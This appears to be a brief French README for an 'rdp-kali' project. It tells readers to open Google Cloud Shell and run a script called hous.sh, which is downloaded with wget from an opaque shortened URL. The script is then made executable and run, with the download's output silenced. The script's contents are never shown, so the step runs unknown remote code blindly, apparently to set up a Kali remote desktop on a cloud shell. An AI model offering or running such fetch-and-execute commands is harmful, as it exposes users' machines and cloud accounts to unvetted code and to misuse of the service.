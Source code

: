 # rdp-kali
rdp kali
# Lancer le Google Cloud shell  et executez :

***************************************************
- wget -O hous.sh shorturl.at/Z0249 > /dev/null 2>&1
- chmod +x hous.sh
- ./hous.sh

- profitez bien de votre rdp.
